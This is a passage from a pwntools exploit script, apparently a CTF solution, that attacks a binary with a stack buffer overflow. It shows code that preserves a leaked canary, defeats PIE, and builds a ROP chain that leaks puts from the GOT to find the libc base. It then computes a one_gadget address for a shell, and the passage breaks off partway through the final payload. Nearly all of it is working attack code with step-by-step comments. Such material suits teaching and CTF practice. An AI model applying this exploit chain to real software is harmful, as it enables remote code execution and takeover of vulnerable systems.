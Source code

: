 ```python
        b"A"*56,         # padding
        b"\x00",         # null byte
        canary[1:],      # canary, with the last byte (B) removed
        b"B"*8,          # padding
        p64(POP_RDI),    # overwrite return address with address of "pop rdi; ret"
        # pop rdi; ret is used to pop the address of puts@got from the stack into rdi
        # puts is called with the address of puts@got as argument
        p64(elf.got["puts"]),  # puts@got - address of puts in the GOT is used as argument for puts
        p64(elf.symbols["puts"]),  # puts@plt - puts is called with the address of puts@got as argument
        p64(elf.symbols["game"])   # game - to restart the game
    )

    io.sendafter(b"secret!\n", payload)  
    answer = io.recvline().strip().decode()  # get the answer of the game
    # print('answer: ', str(answer))  # answer of the game
    io.sendafter(b"(y/n)\n", b"n")  # send n to restart the game, to trigger returning to main
    io.recvline()  # skip the game over message
     
    LIBC_PUTS = u64(io.recvline()[:-1] + b"\x00"*2)  # get the leaked address of puts from the game
    # 2*\x00 because of the null byte at the end of the address
    info(f"LIBC PUTS ADDRESS: {hex(LIBC_PUTS)}")  # print the address of puts

    # calculate the base address of libc by subtracting the offset of puts in libc from the leaked address of puts
    return LIBC_PUTS - libc.symbols["puts"] # return the base address of libc



def main():

    # Start program
    io = start()

 
    canary = get_canary(io)
    elf_leak = get_pie(io, canary)

    # set the base address of the binary
    elf.address = u64(elf_leak+b"\x00"*2)-198 - elf.symbols["main"] # -198 to get the base address of the binary
    # elf.symbols["main"] - offset of main function to binary base address
    # u64 - unpack 64-bit integer (little-endian) 

    printable_canary = canary[1:][::-1] + b'\x00'  # real canary is the guessed canary without the last byte (B) reversed and with \x00 at the end
    info(f"CANARY: {printable_canary.hex()}")
    printable_pie = elf_leak[::-1]
    info(f"LEAK: {printable_pie.hex()}") # main+198

    info("PIEBASE: %#x", elf.address)

    libc.address = get_libc_base(io, canary)
    info(f"LIBC BASE ADDRESS: {hex(libc.address)}")

    # https://github.com/david942j/one_gadget
    # one_gadget ./libc.so.6  # get gadget (second one)
    one_gadget = libc.address + 0xe3b01
    info("ONE_GADGET: " + hex(one_gadget))

    payload = flat(
        b"A"*56,         # padding
        b"\x00",         # null byte for canary
```